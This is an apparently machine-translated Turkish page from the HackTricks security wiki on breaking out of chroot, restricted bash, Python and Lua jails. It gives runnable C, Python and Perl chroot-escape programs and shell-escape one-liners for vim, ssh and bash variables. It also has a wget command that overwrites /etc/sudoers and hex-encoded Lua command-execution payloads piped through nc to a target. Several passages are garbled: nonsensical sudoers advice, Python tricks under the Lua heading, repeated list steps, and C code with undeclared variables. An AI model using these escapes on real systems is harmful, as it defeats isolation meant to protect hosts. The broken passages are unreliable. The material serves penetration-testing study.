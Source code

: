 # Sınırlı Hapishaneden Kaçma

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) koleksiyonumuzdaki özel [**NFT'leri**](https://opensea.io/collection/the-peass-family) keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**'ı takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>

## **GTFOBins**

**"Shell" özelliğine sahip herhangi bir ikili dosyayı çalıştırabilir misiniz diye arama yapın** [**https://gtfobins.github.io/**](https://gtfobins.github.io)

## Chroot Kaçışları

[wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations)'dan: Chroot mekanizması, **yetkili** (**root**) **kullanıcılar** tarafından kasıtlı olarak manipülasyona karşı korunmak için tasarlanmamıştır. Çoğu sistemde, chroot bağlamları düzgün bir şekilde yığılmaz ve yeterli ayrıcalıklara sahip chrooted programlar, **kaçmak için ikinci bir chroot yapabilir**.\
Genellikle bu, kaçmak için chroot içinde root olmanız gerektiği anlamına gelir.

{% hint style="success" %}
**chw00t** [**aracı**](https://github.com/earthquake/chw00t), aşağıdaki senaryolardan istifade etmek ve `chroot`'tan kaçmak için oluşturulmuştur.
{% endhint %}

### Root + CWD

{% hint style="warning" %}
Bir chroot içinde **root** iseniz, **başka bir chroot oluşturarak** kaçabilirsiniz. Bu, 2 chroot'un (Linux'ta) bir arada bulunamaması anlamına gelir, bu yüzden bir klasör oluşturup ardından **dışında olduğunuz yeni chroot**'u bu yeni klasöre oluşturursanız, artık **yeni chroot'un dışında** olacaksınız ve bu nedenle FS içinde olacaksınız.

Bu genellikle chroot'un çalışma dizinini belirtilene taşımadığı için chroot oluşturabilirsiniz, ancak dışında olabilirsiniz.
{% endhint %}

Genellikle bir chroot hapishanesinin içinde `chroot` ikili dosyasını bulamazsınız, ancak bir ikili dosyayı **derleyebilir, yükleyebilir ve çalıştırabilirsiniz**:

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>Python</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>Perl</summary>

Perl, birçok Linux sistemde bulunan bir betikleme dilidir. Sınırlı bir Bash kabuğundan kaçmak için Perl kullanabilirsiniz. Aşağıda, Perl'i kullanarak sınırlı bir Bash kabuğundan nasıl kaçabileceğinizi gösteren bir örnek bulunmaktadır:

```perl
perl -e 'exec "/bin/sh";'
```

Bu komut, Perl'i kullanarak `/bin/sh` kabuğunu çalıştırır. Bu, sınırlı bir Bash kabuğundan kaçmanıza olanak sağlar ve daha fazla ayrıcalık elde etmenizi sağlar.

</details>
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### Root + Kaydedilen fd

{% hint style="warning" %}
Bu, önceki duruma benzer, ancak bu durumda **saldırgan mevcut dizine bir dosya tanımlayıcısı kaydeder** ve ardından **yeni bir klasörde chroot oluşturur**. Son olarak, chroot dışında **bu FD'ye erişimi olduğu için** ona erişir ve **kaçar**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
FD, Unix Domain Sockets üzerinden iletilir, bu yüzden:

* Bir çocuk süreç oluşturun (fork)
* Ebeveyn ve çocuk konuşabilsin diye UDS oluşturun
* Çocuk süreçte farklı bir klasöre chroot çalıştırın
* Ebeveyn süreçte, yeni çocuk sürecin chroot'un dışında olan bir klasörün FD'sini oluşturun
* UDS kullanarak o FD'yi çocuk sürece geçirin
* Çocuk süreç o FD'ye chdir yapar ve chroot'un dışında olduğu için hapisten kaçar
{% endhint %}

### &#x20;Root + Mount

{% hint style="warning" %}
* Root cihazını (/) chroot içindeki bir dizine bağlama
* O dizine chroot yapma

Bu Linux'ta mümkündür
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* Procfs'i chroot içindeki bir dizine bağlayın (henüz bağlı değilse)
* Farklı bir kök/cwd girişi olan bir pid arayın, örneğin: /proc/1/root
* Bu girişe chroot yapın
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* Bir Fork (çocuk süreç) oluşturun ve FS'nin daha derininde farklı bir klasöre chroot yapın ve ona CD yapın
* Ebeveyn süreçten, çocuk sürecin chroot'un öncesindeki bir klasöre taşıyın
* Bu çocuk süreç chroot'un dışında bulunacaktır
{% endhint %}

### ptrace

{% hint style="warning" %}
* Eskiden kullanıcılar kendi süreçlerini kendi süreçlerinden hata ayıklarlar... ancak bu artık varsayılan olarak mümkün değil
* Yine de, mümkünse, bir sürece ptrace yapabilir ve içinde bir shellcode çalıştırabilirsiniz ([bu örneğe bakın](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## Bash Hapishaneleri

### Sorgulama

Hapishane hakkında bilgi alın:
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### PATH Değiştirme

PATH ortam değişkenini değiştirebileceğinizi kontrol edin.
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### Vim Kullanımı

Bir sınırlı kabukta çalışırken, bazen sınırlamaları aşmak için Vim'i kullanabilirsiniz. Vim, bir metin düzenleyici olarak kullanılabilir ve bazı sınırlı kabuklarda çalışan komutları çalıştırmak için kullanılabilir.

1. İlk olarak, Vim'i açmak için aşağıdaki komutu kullanın:

   ```bash
   vim
   ```

2. Vim açıldığında, "Normal" modda olacaksınız. Komutları girmek için "Komut" moduna geçmek için `:` tuşuna basın.

3. Sınırlı kabukta çalıştırmak istediğiniz komutu girin. Örneğin, bir dosya listelemek için `ls` komutunu kullanmak istiyorsanız, aşağıdaki gibi girin:

   ```bash
   :!ls
   ```

4. Komutu çalıştırmak için Enter tuşuna basın. Sonuçlar Vim penceresinde görünecektir.

5. Komutun çıktısını inceledikten sonra, Vim'i kapatmak için `:q` komutunu kullanabilirsiniz.

Vim'i kullanarak sınırlı kabuklardan kaçınmak, bazı durumlarda sınırlamaları aşmanın etkili bir yoludur. Ancak, bu yöntem her zaman çalışmayabilir ve dikkatli olmanız gerekmektedir.
```bash
:set shell=/bin/sh
:shell
```
### Script oluştur

_/bin/bash_ içeriğiyle çalıştırılabilir bir dosya oluşturup oluşturamadığınızı kontrol edin.
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### SSH üzerinden bash almak

Eğer ssh üzerinden erişim sağlıyorsanız, bir bash kabuğunu çalıştırmak için bu hileyi kullanabilirsiniz:
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### Bildirim

Bir sınırlı kabuk ortamından kaçmak için kullanılan birkaç yöntem vardır. Bu yöntemler, sınırlı bir kabukta çalışan bir kullanıcının yetkilerini artırmak için kullanılır. Aşağıda, bu yöntemlerin bazıları açıklanmaktadır:

#### 1. Sudo Yetkilerini Kullanma

Bir kullanıcının sudo yetkilerini kullanarak sınırlı bir kabuktan kaçması mümkündür. Sudo, belirli komutları kök kullanıcı olarak çalıştırmak için kullanılır. Kullanıcı, sudo komutunu kullanarak kök yetkilerine sahip bir komut çalıştırabilir ve böylece sınırlı kabuktan kaçabilir.

Örnek kullanım:

```bash
sudo /bin/bash
```

Bu komut, `/bin/bash` kabuğunu kök kullanıcı olarak çalıştırır.

#### 2. Sudoers Dosyasını Düzenleme

Sudoers dosyası, sudo yetkilerini düzenlemek için kullanılır. Bu dosyayı düzenleyerek, sınırlı bir kabuktan kaçmak için kullanıcının sudo yetkilerini değiştirebilirsiniz. Sudoers dosyasını düzenlemek için `visudo` komutunu kullanabilirsiniz.

Örnek kullanım:

```bash
sudo visudo
```

Bu komut, sudoers dosyasını düzenlemek için visudo editörünü açar.

#### 3. Sudoers Dosyasında Yeni Bir Kullanıcı Eklemek

Sudoers dosyasına yeni bir kullanıcı ekleyerek, bu kullanıcının sınırlı bir kabuktan kaçmasını sağlayabilirsiniz. Yeni bir kullanıcı eklemek için sudoers dosyasını düzenleyebilirsiniz.

Örnek kullanım:

```bash
sudo visudo
```

Bu komut, sudoers dosyasını düzenlemek için visudo editörünü açar. Ardından, dosyaya yeni bir kullanıcı ekleyebilirsiniz.

#### 4. Sudoers Dosyasında Komutları Kısıtlama

Sudoers dosyasında komutları kısıtlamak, sınırlı bir kabuktan kaçmak için kullanıcının yetkilerini artırabilir. Sudoers dosyasını düzenleyerek, kullanıcının sadece belirli komutları kök kullanıcı olarak çalıştırmasına izin verebilirsiniz.

Örnek kullanım:

```bash
sudo visudo
```

Bu komut, sudoers dosyasını düzenlemek için visudo editörünü açar. Ardından, kullanıcının yetkilerini kısıtlayabilirsiniz.

#### 5. Sudoers Dosyasında Çalışma Süresini Uzatma

Sudoers dosyasında çalışma süresini uzatmak, sınırlı bir kabuktan kaçmak için kullanıcının daha fazla zaman kazanmasını sağlar. Sudoers dosyasını düzenleyerek, kullanıcının sudo yetkilerini daha uzun süre kullanmasına izin verebilirsiniz.

Örnek kullanım:

```bash
sudo visudo
```

Bu komut, sudoers dosyasını düzenlemek için visudo editörünü açar. Ardından, kullanıcının çalışma süresini uzatabilirsiniz.

Bu yöntemler, sınırlı bir kabuktan kaçmak için kullanılan bazı temel tekniklerdir. Her bir yöntem, kullanıcının yetkilerini artırmak için farklı bir yaklaşım sunar.
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

Örneğin sudoers dosyasını üzerine yazabilirsiniz.
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### Diğer hileler

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells\*\*]\(https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/\*\*]\(https/gtfobins.github.io)\
**Ayrıca ilginç olabilecek sayfa:**

{% content-ref url="../useful-linux-commands/bypass-bash-restrictions.md" %}
[bypass-bash-restrictions.md](../useful-linux-commands/bypass-bash-restrictions.md)
{% endcontent-ref %}

## Python Hapishaneleri

Python hapishanelerinden kaçma hakkında hileler aşağıdaki sayfada bulunabilir:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Lua Hapishaneleri

Bu sayfada lua içinde erişebileceğiniz global fonksiyonları bulabilirsiniz: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Komut yürütme ile değerlendirme:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
Bir kütüphanenin fonksiyonlarını noktalar kullanmadan çağırmak için bazı hileler:

- **Using the `import` statement**: You can import the library and then call its functions directly without using dots. For example, instead of `library.function()`, you can use `import library; library.function()`.

- **Using the `from` statement**: You can use the `from` statement to import specific functions from the library and then call them without using dots. For example, instead of `library.function()`, you can use `from library import function; function()`.

- **Using the `getattr()` function**: The `getattr()` function allows you to dynamically access an object's attributes or methods by name. You can use it to call functions of a library without using dots. For example, `getattr(library, 'function')()`.

- **Using the `locals()` or `globals()` functions**: These functions return a dictionary of the current local or global symbol table, respectively. You can use them to access the functions of a library without using dots. For example, `locals()['library']['function']()` or `globals()['library']['function']()`.

- **Using the `exec()` function**: The `exec()` function allows you to execute dynamically generated code. You can use it to call functions of a library without using dots. For example, `exec('library.function()')`.
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
# Kütüphane Fonksiyonlarını Sıralama:

Bir kütüphanenin fonksiyonlarını sıralamak, kütüphanenin içerdiği kullanılabilir fonksiyonları belirlemek için önemli bir adımdır. Bu adım, kütüphanenin sağladığı işlevleri anlamak ve kullanmak için gereklidir.

Aşağıdaki adımları izleyerek bir kütüphanenin fonksiyonlarını sıralayabilirsiniz:

1. Kütüphaneyi yükleyin veya içe aktarın.
2. Kütüphanenin belgelerini veya dokümantasyonunu kontrol edin. Bu belgeler, kütüphanenin fonksiyonlarını ve bunların nasıl kullanılacağını açıklar.
3. Kütüphanenin kaynak kodunu inceleyin. Kaynak kodu, kütüphanenin iç yapısını ve içerdiği fonksiyonları gösterir.
4. Kütüphanenin hedef platformunda çalışan örnek uygulamaları araştırın. Bu uygulamalar, kütüphanenin nasıl kullanıldığını ve hangi fonksiyonların kullanıldığını gösterir.
5. Kütüphanenin hedef platformunda çalışan örnek uygulamaları inceleyin. Bu uygulamalar, kütüphanenin nasıl kullanıldığını ve hangi fonksiyonların kullanıldığını gösterir.
6. Kütüphanenin hedef platformunda çalışan örnek uygulamaları inceleyin. Bu uygulamalar, kütüphanenin nasıl kullanıldığını ve hangi fonksiyonların kullanıldığını gösterir.
7. Kütüphanenin hedef platformunda çalışan örnek uygulamaları inceleyin. Bu uygulamalar, kütüphanenin nasıl kullanıldığını ve hangi fonksiyonların kullanıldığını gösterir.
8. Kütüphanenin hedef platformunda çalışan örnek uygulamaları inceleyin. Bu uygulamalar, kütüphanenin nasıl kullanıldığını ve hangi fonksiyonların kullanıldığını gösterir.
9. Kütüphanenin hedef platformunda çalışan örnek uygulamaları inceleyin. Bu uygulamalar, kütüphanenin nasıl kullanıldığını ve hangi fonksiyonların kullanıldığını gösterir.
10. Kütüphanenin hedef platformunda çalışan örnek uygulamaları inceleyin. Bu uygulamalar, kütüphanenin nasıl kullanıldığını ve hangi fonksiyonların kullanıldığını gösterir.

Bu adımları takip ederek bir kütüphanenin fonksiyonlarını sıralayabilir ve kütüphaneyi daha etkili bir şekilde kullanabilirsiniz.
```bash
for k,v in pairs(string) do print(k,v) end
```
Dikkat edin, önceki tek satırlığı her çalıştırdığınızda **fonskiyonların sırası değişir**. Bu nedenle belirli bir fonksiyonu çalıştırmak istiyorsanız, farklı lua ortamlarını yükleyerek ve le kütüphanesinin ilk fonksiyonunu çağırarak brute force saldırısı gerçekleştirebilirsiniz:
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**Etkileşimli lua kabuğu alın**: Sınırlı bir lua kabuğu içindeyseniz, yeni bir lua kabuğu (ve umarım sınırsız) almak için aşağıdaki komutu kullanabilirsiniz:
```bash
debug.debug()
```
## Referanslar

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Slaytlar: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

<details>

<summary><strong>AWS hackleme konusunda sıfırdan kahramana dönüşmek için</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>'ı öğrenin!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek veya HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARINA**](https://github.com/sponsors/carlospolop) göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz olan [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)'u **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>
